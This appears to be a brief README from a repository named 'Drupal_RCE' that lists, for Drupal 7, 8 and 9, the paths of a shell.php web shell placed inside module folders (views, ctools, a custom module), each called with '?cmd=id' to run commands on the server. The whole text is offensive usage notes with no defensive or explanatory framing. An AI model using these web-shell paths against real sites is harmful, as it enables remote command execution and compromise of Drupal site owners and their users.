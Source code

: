 # Drupal_RCE
## Drupal 7:
domain/sites/all/modules/views-7.x-3.24/views/shell.php?cmd=id

## Drupal 8:
domain/modules/drupal_rce/drupal_rce/shell.php?cmd=id

## Drupal 9:
domain/modules/ctools-8.x-3.4/ctools/shell.php?cmd=id
